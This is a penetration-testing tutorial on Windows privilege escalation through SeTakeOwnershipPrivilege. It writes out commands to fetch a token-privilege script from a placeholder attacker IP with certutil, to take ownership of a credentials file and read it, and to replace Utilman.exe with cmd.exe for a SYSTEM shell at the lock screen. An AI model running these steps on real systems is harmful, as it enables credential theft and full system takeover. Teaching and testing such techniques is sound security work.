### **INTRODUCTION**

SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, allowing the user to change the owner within the object's security descriptor. While administrators have this privilege by default, it can also be assigned to service accounts for specific tasks.

### **STEP 1. ENABLING SETAKEOWNERSHIPPRIVILEGE**

1.  Verify if current user has SeTakeOwnershipPrivilege privileges by running:  
    `whoami /priv`  
    
    
    
2.  Download the EnableAllTokenPrivs.ps1 script to enable SeBackupPrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeTakeOwnershipPrivilege is now enabled  
    `whoami /priv`  
    
    
    

### **STEP 2. CHOOSING A TARGET FILE**

1.  Identify a target file that you want to take ownership of. In this example, we will use cred.txt located in a file share.  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`  
    
    
    
2.  Check the ownership of the directory to ensure it is not owned by your current user account:  
    `cmd /c dir /q 'C:\Secrets'`  
    
    
    

### **STEP 3. TAKING OWNERSHIP OF THE FILE**

1.  Use the takeown command to change the ownership of the file:  
    `takeown /f 'C:\Secrets\cred.txt'`  
    
    
    
2.  Confirm the ownership change by checking the owner of the file again.  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`  
    
    
    
3.  Grant your user account full control over the file using the `icacls` command                         
    `icacls 'C:\Secrets\cred.txt' /grant hackfast:F`

        

    **NOTE:** Verify that you can read the file: `cat 'C:\Secrets\cred.txt'`
    

### **EXPLOITING WITH UTILMAN**

1.  Since Utilman is run with SYSTEM privileges, we can gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    

2.  To replace utilman, we will start by taking ownership of it with the following command:  
    `takeown /f C:\Windows\System32\Utilman.exe`  
    
    

    **NOTE:** being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need.
3.  To give your user full permissions over utilman.exe you can use the following command:  
    `icacls C:\Windows\System32\Utilman.exe /grant hackfast:F`  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    

4.  we need to replace utilman.exe with a copy of cmd.exe, (if you can back up utilman it could be great)  
    `copy cmd.exe utilman.exe`  
    
    

5.  To trigger utilman, we will lock our screen from the start button:  
    
    

6.  And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:  
    
    